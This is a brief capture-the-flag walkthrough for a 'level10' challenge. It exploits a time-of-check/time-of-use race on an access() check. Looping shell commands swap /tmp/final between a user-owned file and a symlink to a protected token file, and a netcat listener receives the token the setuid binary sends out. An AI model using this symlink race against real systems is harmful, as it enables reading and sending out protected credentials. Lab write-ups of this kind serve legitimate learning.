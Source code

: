 https://askubuntu.com/questions/301787/opening-a-port-for-listening


First ssh terminal: `while true; do (./level10 /tmp/final 10.11.200.134); done`

Second ssh terminal: `while true; do nc -l 6969 ;done`

`readlink -f token` to know true token path

third ssh terminal: `while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done`

If you don't rm and touch /tmp/final the symlink is on put final and you ./level10 will say you don't have access to /tmp/final, you need a new file created by you to pass the access() check and then apply symlink to /tmp/final
